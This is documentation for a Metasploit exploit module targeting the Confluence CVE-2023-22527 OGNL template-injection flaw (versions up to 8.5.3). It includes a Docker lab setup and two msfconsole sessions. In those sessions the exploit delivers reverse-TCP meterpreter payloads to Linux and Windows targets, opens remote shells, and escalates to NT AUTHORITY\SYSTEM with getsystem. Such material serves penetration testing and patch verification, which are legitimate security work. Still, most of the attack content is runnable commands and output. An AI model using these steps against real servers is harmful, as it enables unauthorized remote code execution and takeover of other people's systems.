 ## Vulnerable Application
This module exploits an SSTI injection in Atlassian Confluence servers. A specially crafted HTTP request uses the
injection to evaluate an OGNL expression resulting in OS command execution.

Confluence versions up to and including 8.5.3 are vulnerable to this SSTI injection flaw. For more complete information
on affected and fixed versions, see [CONFSERVER-93833][1].

### Setup

1. Create a new `docker-compose.yml` file with the contents below.
2. Startup the container using `docker-compose up`
3. Navigate to the HTTP service running on port 8090
4. Acquire and provide an evaluation license
5. When prompted, setup a standalone / non-clustered system
6. Configure the database settings
    1. Select "By connection string", then Database URL: `jdbc:postgresql://postgresql:5432/confdb`
    2. Username and password are both `confdb`
7. Setup takes a few minutes
8. When prompted, select "Empty Site"
9. Select "Manage users and groups within Confluence"
10. Create an account, it **will not** be needed for exploitation
11. Once setup has completed select "Start" and set a space name to something

#### Docker Compose File

```
version: '3'

services:
  postgresql:
    image: postgres:11
    environment:
      POSTGRES_DB: confdb
      POSTGRES_USER: confdb
      POSTGRES_PASSWORD: confdb
    ports:
      - '5432:5432'

  confluence-server:
    depends_on:
      - postgresql
    image: atlassian/confluence:8.5.3
    ports:
      - '8090:8090'
      - '8091:8091'
```

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/atlassian_confluence_rce_cve_2023_22527`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Confluence 8.5.3 in [Docker]

```
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set TARGET Unix\ Command 
TARGET => Unix Command
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Confluence version: 8.5.3
[*] Detected target platform: Linux
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (24772 bytes) to 192.168.159.128
[*] Meterpreter session 8 opened (192.168.159.128:4444 -> 192.168.159.128:52920) at 2024-01-24 12:45:59 -0500

meterpreter > getuid
Server username: confluence
meterpreter > sysinfo
Computer        : c38aa4f3b92e
OS              : Linux 6.6.11-200.fc39.x86_64 #1 SMP PREEMPT_DYNAMIC Wed Jan 10 19:25:59 UTC 2024
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > pwd
/var/atlassian/application-data/confluence
meterpreter >
```

### Confluence 8.5.3 on Windows Server 2019

```
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set TARGET Windows\ Command 
TARGET => Windows Command
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set PAYLOAD cmd/windows/powershell/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > set VERBOSE true
VERBOSE => true
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22527) > exploit

[*] Powershell command length: 4371
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected Confluence version: 8.5.3
[*] Detected target platform: Windows Server 2019
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/windows/powershell/x64/meterpreter/reverse_tcp (Windows Command)
[*] Sending stage (200774 bytes) to 192.168.159.10
[*] Meterpreter session 9 opened (192.168.159.128:4444 -> 192.168.159.10:58923) at 2024-01-24 12:47:39 -0500

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\Atlassian\Confluence
meterpreter > 
```

[1]: https://jira.atlassian.com/browse/CONFSERVER-93833
